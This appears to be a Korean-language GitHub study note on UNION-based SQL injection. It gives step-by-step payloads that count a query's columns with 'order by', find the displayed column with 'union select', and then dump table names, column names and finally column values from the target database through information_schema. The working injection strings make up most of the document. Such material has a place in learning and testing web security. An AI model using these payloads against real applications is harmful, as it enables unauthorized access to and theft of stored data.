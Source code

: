 # shincheonji (UNION SQL INJECTION)

order by: 어떤것으로 정렬 하겠다
* * *
1에서부터 1씩 늘려가며 컬럼 개수를 알아낸다.
```
aa' order by 1 #
```
* * *
정확히 어떤 컬럼들이 화면에 출력돼는지 확인한다. 만약 컬럼개수가 3개라면 "   aa' union select 1,2,3 #   " 이렇게 한다. 그리고 찍힌 숫자의 자리에 원하는 데이터를 넣을수 있다. 11번이라면 11의 자리의 원하는 데이터를 넣을수 있다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23 #
```
* * *
테이블들을 출력한다. 찍힌 숫자가 11번이기 떄문데 11자리에 'table_name'을 넣은것이다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,table_name,12,13,14,15,16,17,18,19,20,21,22,23 from information_schema.tables where table_type='BASE TABLE' #
```
* * *
찾을 테이블의 이름을 넣어서 테이블의 컬럼들을 출력한다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,column_name,12,13,14,15,16,17,18,19,20,21,22,23 from information_schema.columns where table_name='테이블 이름' #
```
* * *
컬럼 값을 출력한다.
```
aa' union select 1,2,3,4,5,6,7,8,9,10,컬럼 이름,12,13,14,15,16,17,18,19,20,21,22,23 from 테이블 이름 #
```
